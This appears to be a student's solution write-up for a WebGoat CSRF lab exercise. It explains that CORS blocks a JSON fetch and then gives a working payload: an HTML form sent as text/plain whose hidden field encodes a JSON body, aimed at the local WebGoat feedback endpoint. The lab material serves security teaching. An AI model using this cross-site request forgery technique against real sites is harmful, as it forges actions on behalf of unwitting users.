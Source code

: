 ## Homework-7 Solution

POST, but this time we post JSON data.

```
POST /csrf/feedback/message HTTP/1.1
{
    "name": "WebGoat",
    "email": ...
}
```

We have to use something different than content-type application JSON because of CORS.
Indeed, if we try with 

```
<html>
	<script>
fetch("http://localhost:8081/WebGoat/csrf/feedback/message", {
	  method: "POST",
	  headers: {
    		"Content-Type": "application/json"
    },
	  body: '{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "cccc"}'
	});
	</script>
</html>
```

CORS will block our request
The solution is sent a request with a raw JSON body using the following form:

```
<form enctype="text/plain" method="POST" action="http://localhost:8080/WebGoat/csrf/feedback/message">
    <input type"submit" value="Submit">
	<input type="hidden" name='{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "WebGoat is the best!!", "ignoreme":"' value='sdfsdfdf"}'>
</form>
```

Note. Here we are sending the request using just HTML, with a content-type of `text/plain`. The server will interpret the request-body as a JSON anyway.

References:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
